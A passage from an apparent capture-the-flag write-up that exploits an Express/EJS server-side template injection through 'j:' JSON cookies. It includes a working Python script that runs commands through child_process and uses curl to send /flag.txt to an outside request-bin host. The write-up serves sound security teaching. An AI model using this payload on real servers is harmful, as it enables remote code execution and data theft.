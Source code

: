> In addition, this module supports special "JSON cookies". These are cookie where the value is prefixed with `j:`. When these values are encountered, the value will be exposed as the result of `JSON.parse`. If parsing fails, the original value will remain.

Knowing this we can construct payload with `jwt=j:PAYLOAD`

Shoutout to `outsparkled` for the explanation about semicolon encoding in the payload.

![image](/assets/images/bitsctf/2024/bitsctf-web-2.png)

Detailed analysis of RCE: <https://eslam.io/posts/ejs-server-side-template-injection-rce/>

### Solution

Whatever command gets executed will not get displayed to us, so we need to exfiltrate that data. In this case we can use `curl`, since we know flag is located at `/flag.txt` (from Dockerfile) we just make request to any requestbin (I used beeceptor) and finally profit.

```py
import requests

URL = 'http://20.244.82.82:5000/'
command = "curl -d @/flag.txt https://uwuos.free.beeceptor.com"
payload = "process.mainModule.require('child_process').execSync('%s')" % command
payload_cookie = (
'''
j: {
    "settings": {
        "view options": {
            "outputFunctionName": "whatever; PAYLOAD ;//"
        }
    }
}
'''
.replace('\n', '')           # Normilize json
.replace(';', '%3b')         # URLEncode semicolons for parser
.replace("PAYLOAD", payload) # Inject payload
)
COOKIES = {
    "jwt": payload_cookie
}

resp = requests.get(URL, cookies=COOKIES)
print(resp) 
```
